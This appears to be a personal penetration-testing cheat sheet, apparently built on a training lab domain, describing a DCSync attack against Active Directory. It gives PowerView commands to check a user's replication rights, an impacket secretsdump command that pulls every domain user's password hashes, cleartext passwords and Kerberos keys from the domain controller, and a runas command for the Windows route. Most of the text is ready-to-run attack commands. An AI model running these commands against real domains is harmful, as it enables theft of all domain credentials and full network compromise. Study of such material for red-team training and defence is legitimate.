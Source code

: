 -- -
Can be used after you get domain admin or if you get a user with these privs. This attack is used to sync AD so you should get all users and their saved hashes from the DC. First, verify your user can do this

*Note: these powershell commands require you open powershell and import PowerView.ps1*
#### Get User SID
```powershell
Get-DomainUser -Identity <user> | select samaccountname,objectsid,memberof,useraccountcontrol | fl
```
#### Check User's Replication Rights
```powershell
# Set SID
$sid= "<user sid>"
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

# Get replication rights
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
#### Perform DSync Attack
**From linux**
```bash
secretsdump.py -outputfile inlanefright_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
Note: The above command will output multiple files:
1. The user hases in `.ntds`
2. Cleartext passwords if user had reversible encryption set in `.ntds.cleartext` 
3. Kerberos keys in `.ntds.kerberos`
**From Windows**
Make sure you run this from the perspective of the user with Sync privileges, if you need to force this:
```powershell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```
Then run attack:
![[Hacking Scratch/Tools/mimikatz#^21193e]]
